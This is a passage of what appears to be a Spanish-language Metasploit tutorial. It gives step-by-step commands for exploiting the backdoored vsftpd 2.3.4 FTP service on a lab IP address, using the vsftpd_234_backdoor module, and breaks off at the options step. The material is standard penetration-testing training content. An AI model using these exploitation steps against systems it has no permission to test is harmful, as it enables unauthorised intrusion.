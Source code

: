 ```bash
sessions
```

---

### ✅ 6️⃣ Ejemplo REAL y FÁCIL: vsftpd 2.3.4

✅ Es un clásico vulnerable con **backdoor**.

---

### 🎯 Escenario

✔ Objetivo IP: 192.168.1.10

✔ Servicio vulnerable: vsftpd 2.3.4 en puerto 21

---

### ✅ PASO A PASO COMPLETO

✅ 1️⃣ Abrir Metasploit:

```bash
msfconsole
```

---

✅ 2️⃣ Buscar exploit:

```bash
search vsftpd
```

✔ Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

✅ 3️⃣ Usar exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

✅ 4️⃣ Ver opciones:

```bash
show options
```

✔ Verás:

```
RHOSTS  => Target IP
RPORT   => Target Port (default: 21)
```

---